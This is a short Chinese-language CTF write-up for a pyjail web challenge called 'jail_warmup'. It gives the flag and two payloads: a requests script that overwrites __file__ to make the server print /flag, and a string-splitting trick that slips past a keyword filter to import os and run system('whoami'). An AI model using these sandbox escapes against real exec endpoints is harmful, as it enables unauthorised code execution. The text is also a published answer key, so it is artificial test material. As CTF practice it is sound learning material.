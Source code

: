 - **题目名称：**jail_warmup

- **题目类型：** WEB

- **题目难度：**容易

- **出题人：**unknown

- **考点：**基础pyjail

- **描述：**基础pyjail

- **flag：**XSCTF{ez_pyjail_isn_t_it}

- **Writeup：** 

  直接修改_\_file__

  ```
  import requests
  url = 'http://127.0.0.1:11111'
  
  code2 = '''
  globals()['__file__'] = '/flag'
  '''
  
  res = requests.post(url=f'{url}/exec',data={'code':code2})
  res = requests.get(url=url)
  print(res.text)
  ```

  或者rce

  ```
  code = '''
  o = getattr(__builtins__,'__impo''rt__')('o''s')
  syst = getattr(o,'syst''em')
  syst('whoami')
  '''
  ```

  